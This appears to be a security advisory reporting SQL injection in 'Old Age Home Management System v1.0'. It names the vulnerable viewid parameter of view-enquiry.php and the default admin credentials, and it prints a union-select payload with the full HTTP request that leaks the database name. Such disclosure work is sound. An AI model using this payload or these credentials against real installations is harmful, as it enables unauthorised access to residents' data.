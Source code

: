 # Old Age Home Management System v1.0 by ANUJ KUMAR has SQL injection

BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://phpgurukul.com/old-age-home-management-system-using-php-and-mysql/#google_vignette

Admin account password： admin/Test@123

The program is built using the xmapp-php8.1 version

Vulnerability File: /oahms/admin/view-enquiry.php?viewid=

Vulnerability location: /oahms/admin/view-enquiry.php?viewid=, id

dbname =oahmsdb

[+] Payload: /oahms/admin/view-enquiry.php?viewid=-1%20union%20select%201,2,3,database(),5,6,7,8 // Leak place ---> id

```sql
GET /oahms/admin/view-enquiry.php?viewid=-1%20union%20select%201,2,3,database(),5,6,7,8 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=pdgj6o3q36155575ehkd7krt8h
Connection: close
```

![image](https://github.com/assets/54017627/4795c27c-ee7b-472e-9ed3-8889c02f8392)

